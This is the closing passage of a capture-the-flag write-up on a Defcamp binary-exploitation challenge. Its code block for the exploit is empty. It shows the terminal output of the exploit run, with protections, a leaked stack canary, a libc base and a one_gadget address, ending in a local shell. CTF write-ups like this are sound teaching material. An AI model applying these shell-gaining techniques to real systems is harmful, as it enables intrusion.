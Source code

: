 ```python
```

Running the exploit we will get shell:-

```r
robin@oracle:~/CTFs/Defcamp$ python q3_exp.py 
[*] '/home/robin/CTFs/Defcamp/q3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './q3': pid 9550
[*] canary: 0x648678ab45c48e00
[*] libc base: 0x7ffff79e4000
[*] one_gadget: 0x7ffff7a332c5
[*] Switching to interactive mode
$ ls
core                 libc.so.6       q3_exp.py  q3.til
$ 
[*] Interrupted
[*] Stopped process './q3' (pid 9550)
```


That was it folks, took more than I thought it would but we made it.

I hope you enjoyed it and learned something today. If you encountered any problem or anything relevant contact me on [twitter](https://twitter.com/d4mianwayne)
